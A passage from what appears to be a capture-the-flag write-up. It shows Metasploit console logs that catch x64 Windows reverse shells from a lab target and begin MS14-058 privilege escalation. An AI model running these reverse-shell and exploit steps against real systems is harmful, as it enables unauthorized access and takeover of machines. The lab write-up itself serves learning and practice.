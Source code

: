 Let's try to get a regular x64 Windows reverse shell then!
```
msf5 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
msf5 exploit(multi/handler) > show options
...
msf5 exploit(multi/handler) > set lhost 10.10.x.x
lhost => 10.10.x.x
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.x.x:4444 
[*] Sending stage (336 bytes) to 10.10.10.8
[*] Command shell session 1 opened (10.10.x.x:4444 -> 10.10.10.8:49166) at 2021-01-17 11:41:46 +0800
[*] Sending stage (336 bytes) to 10.10.10.8
[*] Command shell session 2 opened (10.10.x.x:4444 -> 10.10.10.8:49167) at 2021-01-17 11:41:46 +0800
[*] Sending stage (336 bytes) to 10.10.10.8
```
Looking at Sessions, we see we have established regular x64 shells.
```
msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type               Information                                                                       Connection
  --  ----  ----               -----------                                                                       ----------
  1         shell x64/windows  Microsoft Windows [Version 6.3.9600] (c) 2013 Microsoft Corporation. All righ...  10.10.x.x:4444 -> 10.10.10.8:49166 (10.10.10.8)
  2         shell x64/windows  Microsoft Windows [Version 6.3.9600] (c) 2013 Microsoft Corporation. All righ...  10.10.x.x:4444 -> 10.10.10.8:49167 (10.10.10.8)
  3         shell windows                                                                                        10.10.x.x:4444 -> 10.10.10.8:49168 (10.10.10.8)
```

## 5. First Attempt on MS14-058 & MS16-032
Upon getting a regular shell, let's try to elevate it with the Metasploit modules!

First we try with `MS14-058`:
```
msf5 > use exploit/windows/local/ms14_058_track_popup_menu
[*] Using configured payload windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/ms14_058_track_popup_menu) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows x86
   1   Windows x64


msf5 exploit(windows/local/ms14_058_track_popup_menu) > set target 1
target => 1
msf5 exploit(windows/local/ms14_058_track_popup_menu) > show options
...
msf5 exploit(windows/local/ms14_058_track_popup_menu) > set lhost 10.10.x.x
lhost => 10.10.x.x
msf5 exploit(windows/local/ms14_058_track_popup_menu) > set lport 4545
```